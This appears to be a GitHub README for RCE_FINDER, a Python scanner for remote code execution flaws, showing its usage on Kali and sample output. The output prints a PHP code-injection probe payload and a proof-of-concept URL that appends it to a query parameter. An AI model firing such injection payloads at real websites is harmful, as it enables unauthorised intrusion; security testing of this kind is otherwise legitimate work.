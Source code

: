 # RCE_FINDER

# How to use

root@kali:/rce_finder # python scan_rce.py

     # LOGO

        ##############################################################
        #|  By Rudra Sarkar - @rudr4_sarkar                          #
        #|  Loaded Modules : 1                                       #
        ##############################################################

 [!] Scan URL or List of URLs? [1/2]: 1
 
 [!] Enter the URL: https://www.test.com/testing?oqa=client_eh

 [!] Finding for Remote Code/Command Execution
 
 [!] Covering Operating Systems
 
 [!] Please wait ....


 [+] Vulnerablity Found . . .
 
 [+] Payload:  ;${@print(md5(zigoo0))}
 
 [+] POC: https://www.test.com/testing?oqa=client_eh;${@print(md5(zigoo0))}
